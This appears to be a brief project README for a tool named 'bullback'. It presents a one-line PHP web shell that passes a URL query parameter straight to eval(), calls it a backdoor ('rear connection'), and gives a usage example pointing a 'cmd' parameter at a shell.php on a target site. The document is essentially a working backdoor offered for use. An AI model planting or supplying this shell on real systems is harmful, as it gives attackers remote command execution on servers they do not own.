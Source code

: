 bullback
========

It generates an effective rear connection with eval()

```php
<?php eval($_GET["cmd"]); ?>
```

```
Example: Insert target -> http://target.com/shell.php?cmd=
```

-------------

Copyright, 2014 by [José Pino](http://twitter.com/mrjopino)

-------------
